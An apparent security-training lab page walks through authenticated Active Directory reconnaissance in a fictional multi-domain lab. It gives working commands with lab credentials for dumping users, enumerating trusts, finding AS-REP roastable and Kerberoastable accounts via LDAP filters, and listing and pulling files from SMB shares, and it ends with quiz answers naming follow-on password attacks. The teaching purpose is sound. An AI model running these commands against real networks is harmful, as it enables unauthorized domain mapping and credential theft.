

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/LDAPDump/index.html · generator: mkdocs

#Authenticated AD Reconnaissance
Once the attacker gains a foothold on a domain, by having acquired some user credentials, there's a wide-range of information an attacker can access.

For example, the attacker can now retrieve every other user account in the domain:
```
#north.altair.local
GetADUsers.py -all north.altair.local/skyler.white:Password123 -dc-host CAPTAIN
#sirius.local
GetADUsers.py -all sirius.local/pam.beesly:IDontKnow? -dc-host KING
#altair.local
GetADUsers.py -all altair.local/lily.aldrin:ThisIsMyPassword123 -dc-host CHIEF
```

Other than users, the attacker can assess trust relationships established between the different domains:
```
ldeep ldap -u skyler.white -p 'Password123' -d north.altair.local -s ldap://192.168.122.10 trusts
ldeep ldap -u skyler.white -p 'Password123' -d north.altair.local -s ldap://192.168.122.20 trusts
ldeep ldap -u skyler.white -p 'Password123' -d north.altair.local -s ldap://192.168.122.30 trusts
```

Through tools like ldapsearch, it's possible to issue direct LDAP queries against the directory without relying on higher-level scripts or wrappers.
```
#obtain information on all users
ldapsearch -H ldap://192.168.122.10 -D 'skyler.white@north.altair.local' -w Password123 -b 'DC=north,DC=altair,DC=local' '(&(objectCategory=person)(objectClass=user))'
#List all AS-REP roastable users
ldapsearch -H ldap://192.168.122.10 -D 'skyler.white@north.altair.local' -w Password123 -b 'DC=north,DC=altair,DC=local' '(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
#List all Kerberoastable users
ldapsearch -H ldap://192.168.122.10 -D 'skyler.white@north.altair.local' -w Password123 -b 'DC=north,DC=altair,DC=local' '(&(objectClass=user)(servicePrincipalName=*)(!(cn=krbtgt))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))'
#Retrieve GPO information
ldapsearch -H ldap://192.168.122.10 -D 'skyler.white@north.altair.local' -w Password123 -b 'CN=Policies,CN=System,DC=north,DC=altair,DC=local' '(objectClass=groupPolicyContainer)'
```


Many other types of information can be retrieved via LDAP using only low-privileged, valid credentials. LDAP serves as a core data source for auditing and reconnaissance in AD environments. Tools designed for AD security assessments rely on LDAP to collect details about users, group memberships, ACLs, computer objects, GPOs, trust relationships, and more. This makes LDAP a powerful resource for mapping out and auditing the entire domain structure.

An attacker with authenticated access to AD can also check file shares. With new credentials, the attacker might have access to different shares, which may contain information on the AD environment.

```
crackmapexec smb 192.168.122.10 -u 'skyler.white' -p 'Password123' --shares
```
With skyler's credentials, we have access to new shares! Let's take a peak.

```
smbclient //192.168.122.10/ImportantNotes -U 'skyler.white'
#Enter 'Password123' when the password is requested
ls 
get note.txt
exit
cat note.txt
```
Seems like there's an Holly Flax person from Human Resources. She's from SIRIUS domain, so this account might have access to sensitive employee information, as well as cross-domain presence. A valuable target for an attacker...


!!!question
    How useful are LDAP queries to attackers and what do they require? 
??? success "Answer"
    LDAP queries are very useful for attackers. They allow an attacker to enumerate users and groups, identify attack targets (AS-REP roastable and Kerberoastable accounts), dicover trust relationships, and more. To access LDAP and issue queries, an attacker needs valid account credentials. Even low-privileged credentials are enough as by default most directory information in Active Directory can be read by any authenticated user.


!!!question
    Could you retrieve new usernames? What attacks can now be used in order to uncover their passwords?
??? success "Answer"
    Yes, new users were uncovered. With the usernames, the attacker can now try Password Spraying, AS-REP roasting, or Kerberoasting attacks to potentially retrieve new passwords.
